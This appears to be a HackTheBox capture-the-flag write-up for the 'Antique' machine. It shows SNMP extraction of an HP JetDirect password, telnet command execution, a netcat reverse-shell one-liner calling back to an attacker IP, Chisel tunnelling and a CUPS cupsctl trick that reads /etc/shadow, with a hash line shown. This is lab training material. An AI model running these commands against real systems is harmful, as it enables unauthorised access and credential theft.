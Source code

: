 ```yaml
---
title: Antique
tags:
  - HackTheBox
  - Easy
  - Linux
  - Printer_Hacking
  - Telnet
  - SNMP
  - Tunnelling
---
```

![](Pasted%20image%2020241123232115.png)

## Reconnaissance

First, I added the new host to my known ones:

```shell
sudo echo "10.10.11.107 antique.htb" | sudo tee -a /etc/hosts
```

Then, I performed a Nmap scan:

```shell
nmap -sC -T4 -p- antique.htb > sC.txt

[redacted]
PORT   STATE SERVICE
23/tcp open  telnet
```

So I connected via telnet to the machine, but unfortunately, it required password:

```shell
telnet antique.htb 23

[redacted]
Connected to antique.htb.
Escape character is '^]'.

HP JetDirect
```

Now we know that there is an HP JetDirect printer running.

So I decided to run another Nmap scan, but UDP this time (I just scanned top 10 ports because this type of scan is not very reliable):

```shell
nmap -sU --top-ports=10 antique.htb

[redacted]
PORT     STATE         SERVICE
53/udp   open|filtered domain
67/udp   closed        dhcps
123/udp  open|filtered ntp
135/udp  closed        msrpc
137/udp  closed        netbios-ns
138/udp  closed        netbios-dgm
161/udp  open          snmp
445/udp  closed        microsoft-ds
631/udp  closed        ipp
1434/udp open|filtered ms-sql-m
```

Then I performed a more detailed one on port `161`:

```shell
nmap -sUV -p161 antique.htb > 161.txt

[redacted]
PORT    STATE SERVICE VERSION
161/udp open  snmp    SNMPv1 server (public)
```

## Weaponization

Apart from [Hacktricks notes](https://book.hacktricks.xyz/network-services-pentesting/pentesting-snmp) I discovered this forum about [Network printer hacking](https://www.irongeek.com/i.php?page=security/networkprinterhacking)

## Exploitation

So I performed the following command to get the JetDirect password using the SNMP vulnerability:

```shell
snmpget -v 1 -c public antique.htb .1.3.6.1.4.1.11.2.3.9.1.1.13.0
iso.3.6.1.4.1.11.2.3.9.1.1.13.0 = BITS: 50 40 73 73 77 30 72 64 40 31 32 33 21 21 31 32 
33 1 3 9 17 18 19 22 23 25 26 27 30 31 33 34 35 37 38 39 42 43 49 50 51 54 57 58 61 65 74 75 79 82 83 86 90 91 94 95 98 103 106 111 114 115 119 122 123 126 130 131 134 135
```

We have to notice the BITS part and decode it from Hex (e.g. with Cyberchef):

```python
50 40 73 73 77 30 72 64 40 31 32 33 21 21 31 32 33 1 3 9 17 18 19 22 23 25 26 27 30 31 33 34 35 37 38 39 42 43 49 50 51 54 57 58 61 65 74 75 79 82 83 86 90 91 94 95 98 103 106 111 114 115 119 122 123 126 130 131 134 135
# Decoded from hex
P@ssw0rd@123!!123"#%&'01345789BCIPQTWXaetuy 
# The password is just
P@ssw0rd@123!!123
```

> I got access :D

![](Pasted%20image%2020241123235442.png)

Now I executed the help command:

```shell
> ?

To Change/Configure Parameters Enter:
Parameter-name: value <Carriage Return>

Parameter-name Type of value
ip: IP-address in dotted notation
subnet-mask: address in dotted notation (enter 0 for default)
default-gw: address in dotted notation (enter 0 for default)
syslog-svr: address in dotted notation (enter 0 for default)
idle-timeout: seconds in integers
set-cmnty-name: alpha-numeric string (32 chars max)
host-name: alpha-numeric string (upper case only, 32 chars max)
dhcp-config: 0 to disable, 1 to enable
allow: <ip> [mask] (0 to clear, list to display, 10 max)

addrawport: <TCP port num> (<TCP port num> 3000-9000)
deleterawport: <TCP port num>
listrawport: (No parameter required)

exec: execute system commands (exec id)
exit: quit from telnet session
```

I noticed this command:

```shell
exec: execute system commands (exec id)
# I tried to execute a command
exec id
uid=7(lp) gid=7(lp) groups=7(lp),19(lpadmin)
```

So I can try to get a reverse shell from here:

```shell
exec rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.25 666 >/tmp/f
```

> Got it!

![](Pasted%20image%2020241123235939.png)

I can now read the user flag:

![](Pasted%20image%2020241124000131.png)

## Privilege Escalation

I performed some enumeration around the machine, and discovered something running on port 631:

```shell
netstat -ant
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address           Foreign Address         State      
tcp        0      0 0.0.0.0:23              0.0.0.0:*               LISTEN     
tcp        0      0 127.0.0.1:631           0.0.0.0:*               LISTEN     
tcp        0      0 10.10.11.107:23         10.10.14.25:56774       ESTABLISHED
tcp        0      2 10.10.11.107:46940      10.10.14.25:666         ESTABLISHED
tcp6       0      0 ::1:631                 :::*                    LISTEN 
```

If we perform a curl request, it returns a webpage:

```shell
curl 127.0.0.1:631

[redacted]
<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.0 Transitional//EN" "http://www.w3.org/TR/html4/loose.dtd">
<HTML>
<HEAD>
        <META HTTP-EQUIV="Content-Type" CONTENT="text/html; charset=utf-8">
        <TITLE>Home - CUPS 1.6.1</TITLE>
        <LINK REL="STYLESHEET" TYPE="text/css" HREF="/cups.css">
        <LINK REL="SHORTCUT ICON" HREF="/images/cups-icon.png" TYPE="image/png">
</HEAD>
<BODY>
<TABLE CLASS="page" SUMMARY="{title}">
<TR><TD CLASS="body">
<TABLE BORDER="0" CELLPADDING="0" CELLSPACING="0" SUMMARY="">
<TR HEIGHT="36">
[redacted]
```

Now, to perform the tunnelling I need to download [Chisel](https://github.com/jpillora/chisel) on my machine and upload it to the printer:

```shell
wget https://github.com/jpillora/chisel/releases/download/v1.10.1/chisel_1.10.1_linux_amd64.gz
gunzip chisel_1.10.1_linux_amd64.gz
# Now create a python server and upload it to the machine
```

Now on my machine I executed the following command:

```shell
./chisel_1.10.1_linux_amd64 server -p 7000 --reverse 
```

And then on the printer I run:

```shell
chmod +x chisel_1.10.1_linux_amd64
./chisel_1.10.1_linux_amd64 client 10.10.14.25:7000 R:7631:localhost:631
```

![](Pasted%20image%2020241124001852.png)

Now I can visit `http://localhost:7631` and see what the page looks like:

![](Pasted%20image%2020241124002023.png)

Searching for "*CUPS 1.6.1 exploit*" I dealed with [CUPS root file read exploit](https://github.com/rapid7/metasploit-framework/blob/master/modules/post/multi/escalate/cups_root_file_read.rb). Although it's a Metasploit exploit, I decided to check for what was actually doing:

```ruby
cmd_exec("#{ctl_path} ErrorLog=#{datastore['FILE']}")
# Then check
file = strip_http_headers(get_request('/admin/log/error_log'))
```

Basically you can use `cupsctl` to send the content of any file to an error log, like:

```shell
cupsctl ErrorLog=/etc/shadow
# The check it using curl
curl -S http://localhost:631/admin/log/error_log

[redacted]
root:$6$UgdyXjp3KC.86MSD$sMLE6Yo9Wwt636DSE2Jhd9M5hvWoy6btMs.oYtGQp7x4iDRlGCGJg8Ge9NO84P5lzjHN1WViD3jqX/VMw4LiR.:18760:0:99999:7:::
daemon:*:18375:0:99999:7:::
bin:*:18375:0:99999:7:::
```

So we can now read any file in the system :D So I read root flag:

![](Pasted%20image%2020241124003125.png)

==Machine pwned!==